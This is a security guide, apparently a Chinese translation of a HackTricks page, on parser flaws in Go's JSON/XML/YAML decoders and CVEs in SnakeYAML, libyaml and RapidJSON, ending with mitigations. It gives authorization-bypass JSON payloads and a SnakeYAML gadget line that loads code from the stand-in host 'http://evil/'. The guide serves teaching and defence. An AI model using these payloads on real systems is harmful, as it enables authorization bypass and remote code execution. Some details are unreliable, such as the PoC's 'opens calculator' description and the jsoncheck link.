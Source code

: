# JSON, XML & Yaml Hacking & Issues

{{#include ../banners/hacktricks-training.md}}

## Go JSON 解码器

在 Go JSON 中检测到以下问题，尽管这些问题也可能出现在其他语言中。这些问题已在 [**这篇博客文章**](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/) 中发布。

Go 的 JSON、XML 和 YAML 解析器存在许多不一致和不安全的默认设置，这些设置可能被滥用以 **绕过身份验证**、**提升权限** 或 **外泄敏感数据**。

### (反)序列化意外数据

目标是利用允许攻击者读取/写入敏感字段（例如，`IsAdmin`、`Password`）的结构体。

- 示例结构体：
```go
type User struct {
Username string `json:"username,omitempty"`
Password string `json:"password,omitempty"`
IsAdmin  bool   `json:"-"`
}
```
- 常见漏洞

1. **缺失标签**（无标签 = 字段仍然按默认解析）：
```go
type User struct {
Username string
}
```
有效载荷：
```json
{"Username": "admin"}
```
2. **不正确使用 `-`**:
```go
type User struct {
IsAdmin bool `json:"-,omitempty"` // ❌ wrong
}
```
有效载荷：
```json
{"-": true}
```
✔️ 正确阻止字段被（反）序列化的方法：
```go
type User struct {
IsAdmin bool `json:"-"`
}
```
### 解析器差异

目标是通过利用不同解析器如何以不同方式解释相同有效负载来绕过授权，例如：
- CVE-2017-12635: 通过重复键绕过 Apache CouchDB
- 2022: 通过 XML 解析器不一致性实现 Zoom 0-click RCE
- GitLab 2025 通过 XML 特性绕过 SAML

**1. 重复字段：**
Go 的 `encoding/json` 取 **最后** 一个字段。
```go
json.Unmarshal([]byte(`{"action":"UserAction", "action":"AdminAction"}`), &req)
fmt.Println(req.Action) // AdminAction
```
其他解析器（例如，Java的Jackson）可能会取**第一个**。

**2. 不区分大小写：**
Go是不区分大小写的：
```go
json.Unmarshal([]byte(`{"AcTiOn":"AdminAction"}`), &req)
// matches `Action` field
```
即使是Unicode技巧也有效：
```go
json.Unmarshal([]byte(`{"aKtionſ": "bypass"}`), &req)
```
**3. 跨服务不匹配：**  
想象一下：  
- 用 Go 编写的代理  
- 用 Python 编写的 AuthZ 服务  

攻击者发送：
```json
{
"action": "UserAction",
"AcTiOn": "AdminAction"
}
```
- Python 看到 `UserAction`，允许它
- Go 看到 `AdminAction`，执行它


### 数据格式混淆（多语言）

目标是利用混合格式（JSON/XML/YAML）或在解析器错误时失败开放的系统，例如：
- **CVE-2020-16250**：HashiCorp Vault 在 STS 返回 JSON 而不是 XML 后，用 XML 解析器解析了 JSON。

攻击者控制：
- `Accept: application/json` 头
- 对 JSON 主体的部分控制

Go 的 XML 解析器 **仍然** 解析了它并信任注入的身份。

- 精心制作的有效负载：
```json
{
"action": "Action_1",
"AcTiOn": "Action_2",
"ignored": "<?xml version=\"1.0\"?><Action>Action_3</Action>"
}
```
结果：
- **Go JSON** 解析器：`Action_2`（不区分大小写 + 最后一个优先）
- **YAML** 解析器：`Action_1`（区分大小写）
- **XML** 解析器：解析字符串中的 `"Action_3"`

---

## 显著的解析器漏洞（2023-2025）

> 以下公开可利用的问题表明，不安全的解析是一个多语言问题——不仅仅是 Go 的问题。

### SnakeYAML 反序列化 RCE (CVE-2022-1471)

* 影响：`org.yaml:snakeyaml` < **2.0**（被 Spring-Boot、Jenkins 等使用）。
* 根本原因：`new Constructor()` 反序列化 **任意 Java 类**，允许导致远程代码执行的 gadget 链。
* 一行 PoC（将在易受攻击的主机上打开计算器）：
```yaml
!!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://evil/"] ] ] ]
```
* 修复 / 缓解措施:
1. **升级到 ≥2.0**（默认使用 `SafeLoader`）。
2. 在旧版本中，明确使用 `new Yaml(new SafeConstructor())`。

### libyaml 双重释放 (CVE-2024-35325)

* 影响: `libyaml` ≤0.2.5（许多语言绑定使用的 C 库）。
* 问题: 调用 `yaml_event_delete()` 两次会导致双重释放，攻击者可以将其转化为 DoS，或者在某些情况下，堆利用。
* 状态: 上游拒绝作为“API误用”，但 Linux 发行版发布了修补的 **0.2.6**，防御性地将指针置为 null。

### RapidJSON 整数（下|上）溢出 (CVE-2024-38517 / CVE-2024-39684)

* 影响: 腾讯 **RapidJSON** 在提交 `8269bc2` 之前（<1.1.0-patch-22）。
* 缺陷: 在 `GenericReader::ParseNumber()` 中，未检查的算术运算使攻击者能够构造巨大的数字字面量，这些字面量会环绕并破坏堆——最终在结果对象图用于授权决策时启用特权提升。

---

### 🔐 缓解措施（更新）

| 风险                                | 修复 / 推荐                                          |
|-------------------------------------|------------------------------------------------------|
| 未知字段（JSON）                     | `decoder.DisallowUnknownFields()`                    |
| 重复字段（JSON）                     | ❌ 标准库中没有修复 — 使用 [`jsoncheck`](https://github.com/dvsekhvalnov/johnny-five) 验证 |
| 不区分大小写匹配（Go）               | ❌ 没有修复 — 验证结构标签 + 预规范化输入           |
| XML 垃圾数据 / XXE                  | 使用强化解析器 (`encoding/xml` + `DisallowDTD`)    |
| YAML 未知键                          | `yaml.KnownFields(true)`                             |
| **不安全的 YAML 反序列化**          | 使用 SafeConstructor / 升级到 SnakeYAML ≥2.0       |
| libyaml ≤0.2.5 双重释放             | 升级到 **0.2.6** 或发行版修补版本                  |
| RapidJSON <修补提交                 | 编译最新的 RapidJSON（≥2024年7月）                  |

## 参考文献

- Baeldung – “使用 SnakeYAML 2.0 解决 CVE-2022-1471”
- Ubuntu 安全追踪器 – CVE-2024-35325 (libyaml)

{{#include ../banners/hacktricks-training.md}}
